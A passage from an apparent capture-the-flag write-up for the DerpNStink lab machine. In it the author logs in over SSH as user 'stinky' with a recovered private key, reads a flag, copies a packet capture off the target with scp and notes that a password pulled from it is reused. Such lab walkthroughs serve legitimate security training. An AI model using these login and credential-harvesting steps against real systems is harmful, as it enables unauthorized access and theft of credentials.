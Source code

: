 ```

## SSH

### Stinky

The next step was to connect with the ssh key I found as the user `stinky` and see what else I could grab. Oh, look, a flag!

```
root@kali:[~/derpnstink]:                                                                                                                                                         
[Exit: 0] 00:25: ssh -i stinky.key stinky@target                                                                                                                                  
                                                                                                                                                                                  
Ubuntu 14.04.5 LTS                                                                                                                                                                
                                                                                                                                                                                  
                                                                                                                                                                                  
                       ,~~~~~~~~~~~~~..                                                                                                                                           
                       '  Derrrrrp  N  `
        ,~~~~~~,       |    Stink      |
       / ,      \      ',  ________ _,"
      /,~|_______\.      \/                                                            
     /~ (__________)                                 
    (*)  ; (^)(^)':                    
        =;  ____  ;           
          ; """"  ;=                
   {"}_   ' '""' ' _{"}                                           
   \__/     >  <   \__/                                        
      \    ,"   ",  /                                              
       \  "       /"                                         
          "      "=                                                
           >     <                                               
          ="     "-                     
          -`.   ,'                                   
                -                  
            `--'                   
                                 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)
                                  
 * Documentation:  https://help.ubuntu.com/      
                                            
331 packages can be updated.                   
231 updates are security updates.                
                                            
Last login: Mon May  6 23:51:04 2019 from 192.168.167.7
                                                 
stinky@DeRPnStiNK:~$                           
stinky@DeRPnStiNK:~$ find .       
...
stinky@DeRPnStiNK:~$ ls
Desktop  Documents  Downloads  ftp
stinky@DeRPnStiNK:~$ ls -r Desktop/
flag.txt
stinky@DeRPnStiNK:~$ cat Desktop/flag.txt 
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
stinky@DeRPnStiNK:~$ ls -r Documents/
derpissues.pcap
stinky@DeRPnStiNK:~$ 
```

More important than the flag, I found the pcap that was referred to in the chat log I found via ftp. I grabbed that and did a very lazy parse. Oh, look, a password!

```
scp -i stinky.key stinky@target:~/Documents/derpissues.pcap .
# get password for mrderp from pcap ; pass is reused in system and wordpress: